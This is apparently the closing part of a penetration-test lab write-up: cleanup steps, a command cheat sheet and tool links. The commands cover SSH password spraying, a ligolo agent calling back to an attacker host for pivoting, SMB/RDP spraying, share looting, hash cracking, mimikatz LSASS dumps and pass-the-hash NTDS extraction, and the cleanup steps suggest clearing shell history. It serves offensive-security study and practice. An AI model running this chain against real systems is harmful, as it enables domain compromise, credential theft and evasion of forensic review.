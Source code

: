 
## Housekeeping
- Kill ligolo session; remove `agent` from DMZ01, delete temp dirs.  
- Clear RDP transfer folders, delete Snaffler/Mimikatz binaries.  
- Consider clearing shell history on Linux foothold.

---

## Quick Reference — Commands
```bash
# Username & spray
./username-anarchy "First Last" > user.list
hydra -L user.list -p 'Password!' ssh://TARGET

# Pivot
sudo ./proxy -selfcert
python3 -m http.server 8000
./agent -connect ATTACKER:11601 --ignore-cert
# inside proxy: session → autoroute → start

# Internal spray
nxc rdp hosts -u user -p 'pass'
nxc smb hosts -u user -p 'pass' --shares
xfreerdp /v:IP /u:user /p:'pass' /drive:linux,.

# Share loot
smbclient -U DOM\\user '\\IP\SHARE' -c 'cd dir; get file'

# Password Safe
hashcat -m 5200 db.psafe3 /usr/share/wordlists/rockyou.txt.gz

# LSASS / Creds
# (Windows) mimikatz privilege::debug ; sekurlsa::logonpasswords

# Pass-the-Hash & NTDS
nxc smb DC -u user -H NTLM --ntds --user Administrator
```

---

## Tool Links
- username-anarchy — https://github.com/urbanadventurer/username-anarchy
- hydra — https://github.com/vanhauser-thc/thc-hydra
- ligolo-ng — https://github.com/nicocha30/ligolo-ng
- NetExec (nxc) — https://github.com/Pennyw0rth/NetExec
- xfreerdp — https://github.com/FreeRDP/FreeRDP
- Snaffler — https://github.com/SnaffCon/Snaffler
- Hashcat — https://hashcat.net/hashcat/
- mimikatz — https://github.com/gentilkiwi/mimikatz
- (Preview) impacket-ntlmrelayx — https://github.com/fortra/impacket
- (Preview) PKINITtools — https://github.com/dirkjanm/PKINITtools
- (Preview) pywhisker — https://github.com/ShutdownRepo/pywhisker
